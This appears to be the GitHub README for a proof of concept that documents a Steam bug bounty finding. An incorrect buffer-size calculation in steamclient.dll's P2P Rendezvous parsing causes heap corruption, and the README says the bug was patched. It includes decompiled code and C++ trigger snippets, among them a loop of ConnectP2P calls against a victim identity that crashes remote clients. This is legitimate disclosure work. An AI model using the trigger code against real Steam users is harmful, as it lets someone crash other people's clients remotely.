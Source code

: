 # CrashSteamUser
**PoC Code for Steam Bug Bounty, Allowing P2P Connections to Crash Clients, submitted to Valve's bug bounty program under "#1276762
Improper memory buffer size calculation causes heap corruption in steamclient.dll CMsgSteamNetworkingP2PRendezvous signal parse"**

*Valve Quickly Responded to, and Patched this bug within a month of initial reporting. Funds were awarded under their bug bounty program*

## Technical Background 

Valve provides native P2P networking capabilities within [Steam GameNetworkingSockets](https://github.com/ValveSoftware/GameNetworkingSockets), avaliable for use to game developers through the [Steamworks API](https://partner.steamgames.com/doc/sdk).

To begin a P2P session, GameNetworkingSockets generates a CMsgSteamNetworkingP2PRendezvous protobuf message in [SetRendezvousCommonFieldsAndSetSignals](https://github.com/ValveSoftware/GameNetworkingSockets/blob/d5f855967440eeb5b4d5798bebe179ef868ac6af/src/steamnetworkingsockets/clientlib/steamnetworkingsockets_p2p.cpp#LL1599C34-L1599C72). This message is then transmitted to the targeted client, who will then initiate a worker thread for a CClientJobConnectionInfo message, containing the Rendezvous found within a CMsgClientP2PConnectionInfo message.

## The Bug

The following disassembled representation of a function within steamclient.dll: 
```C
    nByteSize = CalculateByteSize(&P2PRendezvous);
    nSizeReturn = nByteSize;
    nSizeOfAllocedMemory = 8208;
    if ( nByteSize > 8192 )
    {
      nSizeOfAllocedMemory = 16400 - nByteSize; //nSizeOfAllocedMemory now becomes very small
    }
    allocedMemory = (*(int (__stdcall **)(int))(*g_pMemAllocSteam + 12))(nSizeOfAllocedMemory); // malloc
    v17 = *(_DWORD *)(ContainsappID + 24);
    *(_DWORD *)(allocedMemory + 4) = *(_DWORD *)(ContainsappID + 28);
    *(_DWORD *)allocedMemory = v17;
    *(_DWORD *)(allocedMemory + 8) = v30;
    *(_DWORD *)(allocedMemory + 12) = nSizeReturn;
    SerializeMessage(&P2PRendezvous, (_BYTE *)(allocedMemory + 16));
```

A improper calculation occurs in steamclient.dll. When a Rendezvous message is received, it is deseralized and placed within a CMsgClientP2PConnectionInfo protobuf. When calling into the signal parser, it is then seralized to an allocated memory buffer. 

The byte size of the total message is calculated and used to allocate a buffer of appropriate size. However, the value is checked to be greater than 8192 bytes,if it is found to be so, the new allocated memory size is set to 16400 - the total size. 

This causes any messages larger than 8192 to allocate a buffer of insuffecient size. ` (16400 - 16 /*hdr*/) - 8193 = 8191`, leading to heap corruption. 

In order to trigger this bug, reliable messages were appended in PoC code to fill the message size to greater than 8192 bytes.

```C++    
CMsgSteamNetworkingP2PRendezvous* pMsg = reinterpret_cast<CMsgSteamNetworkingP2PRendezvous*>(msg);
while (pMsg->ByteSize() < 8192)
{
    pMsg->add_reliable_messages();
}
 ```
 
Additionally, due to the nature of SetRendezvousCommonFieldsAndSendSignal automatically adding reliable messages that haven't been ack'd to the message (m_vecUnackedOutboundMessages), simply rapidly calling ISteamNetworkingSockets::ConnectP2P in rapid succession is enough to trigger the bug
The following code worked every attempt:

```C++
for (int i = 0; i < 401; i++)
{
	hConn[i] = Globals::g_pSteamNetworkingSockets->ConnectP2P(VictimNetworkingIdentity, i, 0, 0);
}
```



## Video Presentation
 [![Proof Of Concept video](https://img.youtube.com/vi/huNZtW7w9p8/0.jpg)](https://www.youtube.com/watch?v=huNZtW7w9p8)
